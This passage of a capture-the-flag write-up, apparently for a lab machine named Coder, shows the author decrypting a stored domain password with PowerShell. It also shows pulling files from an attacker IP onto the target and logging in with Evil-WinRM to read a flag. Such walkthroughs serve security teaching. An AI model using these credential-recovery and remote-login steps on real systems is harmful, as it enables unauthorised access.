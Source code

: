 This diff shows 2 additional files. `Get-ADCS_Report.ps1` loads a key from `key.key` and uses it to decrypt `enc.txt` into a password for the e.black user. Then it sends an email using those creds.

`enc.txt` has a base64-encoded string. `key.key` has a series of bytes as ints.

### Get Password

To get the password, I’ll create copies of `enc.txt` and `key.key` and upload them to Coder:

```

PS C:\programdata> iwr 10.10.14.6/key.key -outfile key.key
PS C:\programdata> iwr 10.10.14.6/enc.txt -outfile enc.txt

```

Then in PowerShell I’ll use the commands above to load them into variables and get the raw password

```

PS C:\programdata> $key = Get-Content ".\key.key"
PS C:\programdata> $pass = (Get-Content ".\enc.txt" | ConvertTo-SecureString -Key $key)
PS C:\programdata> $cred = New-Object -TypeName System.Management.Automation.PSCredential ("coder\e.black",$pass)
PS C:\programdata> $cred.GetNetWorkCredential().Password
ypOSJXPqlDOxxbQSfEERy300

```

### WinRM

I’ll connect as e.black over WinRM with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```

oxdf@hacky$ evil-winrm -i coder.htb -u e.black -p ypOSJXPqlDOxxbQSfEERy300

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\e.black\Documents>

```

And grab `user.txt`:

```
*Evil-WinRM* PS C:\Users\e.black\Desktop> type user.txt
6214c8ed************************

```

## Shell as administrator

### Bloodhound
